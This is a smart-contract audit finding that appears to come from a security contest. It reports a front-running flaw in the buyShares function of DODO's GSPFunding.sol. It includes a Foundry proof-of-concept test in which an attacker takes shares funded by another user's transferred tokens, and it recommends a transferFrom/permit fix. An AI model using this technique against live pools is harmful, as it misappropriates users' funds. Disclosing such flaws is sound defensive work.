 Future Clear Monkey

high

# Vulnerability in GSPFunding.sol's buyShares Function Leading to Unauthorized Token Expenditure

dian.ivanov

high

# Vulnerability in GSPFunding.sol's buyShares Function Leading to Unauthorized Token Expenditure(Race Condition / Front-running attack)

## Summary
This issue arises when users transfer tokens to the protocol intending to subsequently execute buyShares in https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L31 . However, the current implementation allows any user to call buyShares and utilize the tokens already transferred by others.

## Vulnerability Detail
The reason for this vulnerability is the need to call transfer for the corresponding tokens
to transfer them to the protocol and then call buyShares believing it will use only the tokens
the user has transfered, but buyShares is just getting it's current balance of tokens and then
deducts the last updated reserves. This flaw can also lead to scenarios where multiple users transfer tokens to the contract, but the first user to call buyShares ends up utilizing all the transferred tokens, causing financial loss to others.

## Impact
This vulnerability can lead to unauthorized use of tokens, where one user can effectively spend tokens transferred by others. It represents a significant security risk, potentially leading to financial losses for users whose tokens are misappropriated.

## Code Snippet
Include this test to GSPFunding.t.sol, it demostrates how a malicious user can front-run
or just buy shares of another use who forgot to buy his shares or use the transferred tokens
anyhow, the test will pass, but it shouldnt:

```solidity
    function test_maliciousUserBuysSharesInsteadOfUser() public {
        address MALICIOUS_USER = vm.addr(123);

        //Prepare user by sending him some DAI & USDC tokens
        vm.startPrank(DAI_WHALE);
        dai.transfer(USER, (BASE_RESERVE + BASE_INPUT));
        vm.stopPrank();
        vm.startPrank(USDC_WHALE);
        usdc.transfer(USER, QUOTE_RESERVE);
        vm.stopPrank();
        vm.startPrank(USER);
        dai.transfer(address(gsp), BASE_RESERVE);
        usdc.transfer(address(gsp), QUOTE_RESERVE);
        vm.stopPrank();

        //Malicious user calls buyShares for himself with the transffered by the user tokens
        vm.startPrank(MALICIOUS_USER);
        gsp.buyShares(MALICIOUS_USER);
        assertEq(gsp.balanceOf(MALICIOUS_USER), 1e19);
        console.log("Malicous user's shares: ", gsp.balanceOf(MALICIOUS_USER));
        vm.stopPrank();

        //User is unable to buy tokens because they were already used by the malicous user
        vm.startPrank(USER);
        vm.expectRevert();
        gsp.buyShares(USER);
        vm.stopPrank();
    }
```

## Tool used

Manual Review

## Recommendation
To mitigate this risk, the contract can use a permit or approvals mechanism, paired with the transferFrom method. This approach would enable the contract to securely pull tokens from a user's account and execute buyShares (https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L31) in a single, atomic operation. This change would eliminate the vulnerable window between token transfer and share purchase, thereby securing the process against unauthorized token usage. Another approach could be mappings with everyone's transffered amounts for the base and quote tokens.